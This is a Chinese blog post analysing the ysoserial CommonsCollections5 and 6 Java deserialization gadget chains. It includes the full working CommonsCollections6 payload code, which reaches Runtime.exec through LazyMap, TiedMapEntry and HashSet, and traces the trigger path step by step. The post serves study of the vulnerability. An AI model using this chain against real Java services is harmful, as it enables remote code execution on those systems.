 ```yaml
---
title: Ysoserial工具解读（四）
date: 2019-10-31 19:55:49
tags: [Java, RCE,反序列化]
categories: 漏洞分析
---
```


这篇博客介绍CommonsCollections5、6的构造方式，Apache的这个jar包（版本3.1、4.0）总算要分析完了。这两个java文件都利用了`org.apache.commons.collections`下的`TiedMapEntry`和`LazyMap`两个类。不同的是5在外层利用了`BadAttributeValueExpException`类，而6利用了`HashSet`类。

<!-- more -->

## CommonsCollections5的Payload构造方式

其实，CommonsCollections5的代码正是本系列第一篇[https://l1nf3ng.github.io/2019/03/27/Java反序列化漏洞解析/](https://l1nf3ng.github.io/2019/03/27/Java反序列化漏洞解析/) 所讲的那个构造方式，主要针对jdk8u60之后`sun.reflect.annotation.AnnotationInvocationHandler `这个类被删除的情况。其调用链这里不再重复分析，值得一提的是这次重新分析的过程中的乌龙事件：

> 我在IDEA的debug下给`javax.management.BadAttributeValueExpException`的`readObject()`方法打了断点，如下图：
>
> ![](Ysoserial工具解读（四）/debug1.png)
>
> 我发现代码在过了第一个断点后就弹出了计算器，一开始我怀疑之前看的分析文章都搞错了。后来仔细观察发现，在debug的变量观察窗口里的`TiedMapEntry`对象已经被调试器做了解析：
>
> ![](Ysoserial工具解读（四）/debug2.png)
>
> 所以，我的猜测是调试器的查看变量功能的进/线程在做解析时会去尝试get每个Map的Key-Value值，这就提前触发了利用链（为了验证这一猜测，我调整了一下CommonsCollections5的payload构造方法里代码的顺序，并打上断点观察其运行结果——发现调试器真得会去解析Map类对象，从而提前触发了攻击链）。
>
> ![](Ysoserial工具解读（四）/debug4.png)
>
> 因此，我去掉之前的断点，将新断点打在`LazyMap.get()`方法中，这次调用链没有提前触发，观察已经走过的调用栈也是对的，最后单步那行代码的确弹出了计算器！
>
> ![](Ysoserial工具解读（四）/debug3.png)

所以，以后分析和调试代码时还是要细心才行，不然很容易搞错。

## CommonsCollections6的Payload构造方式

```java
/*	我还是偷懒地先贴代码
*/
public Serializable getObject(final String command) throws Exception {

    final String[] execArgs = new String[] { command };

    final Transformer[] transformers = new Transformer[] {
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[] {
            String.class, Class[].class }, new Object[] {
            "getRuntime", new Class[0] }),
        new InvokerTransformer("invoke", new Class[] {
            Object.class, Object[].class }, new Object[] {
            null, new Object[0] }),
        new InvokerTransformer("exec",
                               new Class[] { String.class }, execArgs),
        new ConstantTransformer(1) };

    Transformer transformerChain = new ChainedTransformer(transformers);

    final Map innerMap = new HashMap();

    final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

    TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");

    HashSet map = new HashSet(1);
    // add(E e)方法将(e, Object())添加到map内部的"map"字段中
    map.add("foo");
    Field f = null;
    try {
        // "map"是HashSet内部的类型为HashMap<E,Object>的字段
        // 因为被定义为transient，所以不参与序列化
        f = HashSet.class.getDeclaredField("map");
    } catch (NoSuchFieldException e) {
        f = HashSet.class.getDeclaredField("backingMap");
    }

    f.setAccessible(true);
    // 获取map对象的“map”字段值
    HashMap innimpl = (HashMap) f.get(map);

    Field f2 = null;
    try {
        // "table"是HashMap内部类型为Node<K,V>的数组
        // Node是HashMap的一个内部静态类，也是用来存储Key-Value值
        // 因为被定义为transient，所以不参与序列化
        f2 = HashMap.class.getDeclaredField("table");
    } catch (NoSuchFieldException e) {
        f2 = HashMap.class.getDeclaredField("elementData");
    }

    f2.setAccessible(true);
    // 获取innimpl对象的“table”字段值
    Object[] array = (Object[]) f2.get(innimpl);
	// 获取table中第一个不为空的节点
    Object node = array[0];
    if(node == null){
        node = array[1];
    }

    Field keyField = null;
    try{
        // 获取Node类型的"key"字段
        keyField = node.getClass().getDeclaredField("key");
    }catch(Exception e){
        keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
    }

    keyField.setAccessible(true);
    // 将该node节点的key值设置成TiedMapEntry的对象entry
    keyField.set(node, entry);
    
    return map;

}
```

因此，在经历上述构造后，最终的Payload长这个样子：

![](Ysoserial工具解读（四）\payload.png)

### `HashSet`类

我们再看看反序列化的过程，首先分析下`HashSet`类的代码：

```java
/*	HashSet.java
*/

public HashSet(int initialCapacity) {
    map = new HashMap<>(initialCapacity);
}

private static final Object PRESENT = new Object();
public boolean add(E e) {
    return map.put(e, PRESENT)==null;
}

private void readObject(java.io.ObjectInputStream s)
    throws java.io.IOException, ClassNotFoundException {
	* * * *

    // Read size and verify non-negative.
    int size = s.readInt();
    
    * * * * 
        
    // Create backing HashMap
    map = (((HashSet<?>)this) instanceof LinkedHashSet ?
           new LinkedHashMap<E,Object>(capacity, loadFactor) :
           new HashMap<E,Object>(capacity, loadFactor));

    // Read in all elements in the proper order.
    for (int i=0; i<size; i++) {
        @SuppressWarnings("unchecked")
        // 这里反序列化的第一个类就是TiedMapEntry对象
        E e = (E) s.readObject();
        // 将该对象e作为key放入数组
        map.put(e, PRESENT);
    }
}
```

### `HashMap`类

在进行`put()`时就进入了HashMap的方法，代码如下：

```java
/*	HashMap.java
*/
public V put(K key, V value) {
    // 其中又调用了hash()方法
    return putVal(hash(key), key, value, false, true);
}

static final int hash(Object key) {
    int h;
    // 这里又调用了key对象的hashCode()方法，也就是TiedMapEntry对象
    return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
}
```

接着跟进TiedMapEntry类型的`hashCode()`方法：

```java
/*	TiedMapEntry.java
*/
public int hashCode() {
    // 在这里调用其getValue()方法
    Object value = getValue();
    return (getKey() == null ? 0 : getKey().hashCode()) ^
        (value == null ? 0 : value.hashCode()); 
}

public Object getValue() {
    return map.get(key);
}
```

跟到这一步，剩下的调用链就和CommonsCollections5的后半部分完全一样了。

最后我在`InvokerTransformer.transform()`处打了断点，开启调试模式，就可以看到完整调用栈。对，就是这么懒(*￣rǒ￣)！

![](Ysoserial工具解读（四）\debug5.png)

